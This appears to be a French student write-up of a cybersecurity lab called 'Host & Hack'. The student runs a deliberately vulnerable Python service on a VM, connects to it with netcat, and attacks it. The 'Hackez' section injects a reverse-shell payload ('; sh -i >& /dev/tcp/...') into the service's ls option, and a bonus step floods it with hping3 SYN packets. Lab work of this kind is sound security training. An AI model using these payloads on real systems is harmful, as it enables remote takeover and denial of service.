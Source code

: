 # I. Partie 1 : Host & Hack

## Sommaire

- [I. Partie 1 : Host \& Hack](#i-partie-1--host--hack)
  - [Sommaire](#sommaire)
  - [1. A vos marques](#1-a-vos-marques)
  - [2. Prêts](#2-prêts)
  - [3. Hackez](#3-hackez)

## 1. A vos marques

🌞 **Télécharger l'application depuis votre VM**

```bash
[toto@rocky ~]$ wget https://gitlab.com/it4lik/b3-csec-2024/-/raw/main/efrei_server
```

🌞 **Lancer l'application `efrei_server`**

```bash
[toto@rocky ~]$ python main.py 
```

```bash
[toto@rocky ~]$ export LISTEN_ADDRESS=172.16.74.175
```

🌞 **Prouvez que l'application écoute sur l'IP que vous avez spécifiée**

```bash
[toto@rocky ~]$ sudo ss -ltnp
State        Recv-Q       Send-Q             Local Address:Port              Peer Address:Port       Process                                 
LISTEN       0            128                      0.0.0.0:22                     0.0.0.0:*           users:(("sshd",pid=843,fd=3))          
LISTEN       0            100                172.16.74.175:8888                   0.0.0.0:*           users:(("python",pid=5522,fd=6))
```

## 2. Prêts

🌞 **Se connecter à l'application depuis votre PC**

```bash
nc 172.16.74.175 8888 
```

## 3. Hackez

🌞 **Euh bah... hackez l'application !**

*Dans un premier shell*
```bash
nc -nvl 8080
```

*Dans un second shell*

```bash
❯ nc 172.16.74.175 8888
Hello ! Tu veux des infos sur quoi ?
1) cpu
2) ram
3) disk
4) ls un dossier

Ton choix (1, 2, 3 ou 4) : 4
Exécuter la commande ls vers le dossier : ; sh -i >& /dev/tcp/172.16.74.1/8080 0>&1
```

🌟 **BONUS : DOS l'application**

```bash
sudo hping3 --flood -p 8888 -S 172.16.74.175
```

> ➜ [**Lien vers la partie 2**](./part2.md)